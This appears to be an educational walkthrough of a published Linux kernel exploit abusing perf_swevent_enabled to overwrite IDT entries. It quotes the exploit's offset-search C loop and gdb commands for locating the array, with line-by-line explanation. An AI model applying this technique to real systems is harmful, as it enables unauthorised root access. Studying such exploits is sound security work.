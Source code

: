 ## Exploit

I use exploit published on exploit-db by Vitaly Nikolenko as the explanation of the process.

### Finding correct values

As the first step, the value used for the attr.config needs to be identified. 

```c
// can only play with interrupts 3, 4 and 0x80
	for (int_n = 3; int_n <= 0x80; int_n++) {
		for (off64 = 0x00000000ffffffff; (int)off64 < 0; off64--) {
			int off32 = off64;
	
			if ((targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)) {
				offset = off32;
				goto out;
			}
		}
		if (int_n == 4) {
			// shit, let's try 0x80 if the kernel is compiled with
			// CONFIG_IA32_EMULATION
			int_n = 0x80 - 1;
		}
	}
out:
	assert(offset);
```

The comment in line 1 explains that interrupts 0x03, 0x04 and 0x80 are the best candidates as there is a high chance that they won't be used by the system so won't interfere.  

Line 3: iterate through all negative numbers, starting from -1 and decreasing with each loop. `(int)off64 < 0` ensures that only negative numbers are accepted. This is to fulfil the check of PERF\_COUNT\_SW\_MAX.  

Line 6: `targets[target][0]` is the base address of perf\_swevent\_enabled array. It will be different per kernel version but can be easily retrieved with gdb  

```
(gdb) x perf_swevent_enabled
0xffffffff81ef5940 <perf_swevent_enabled>:	0x00000000

(gdb) p sizeof(perf_swevent_enabled[0])
$18 = 24
```

`0xffffffff81ef5940 + ((uint64_t)off32)*24)`: the size of the element is 24 bytes so that is also the increment size for each iteration.

`(idt.addr + int_n*16 + 8)`: idt.addr is the base of the IDT array. 16 is the size of IDT[x] and +8 is the offset to the Offset63..32. 

In summary: `(targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)` is finding the value that will point to the IDT of n-th interrupt that can be increment resulting in the wrap. This memory address will be used later to call a syscall which will exploit the vulnerability.
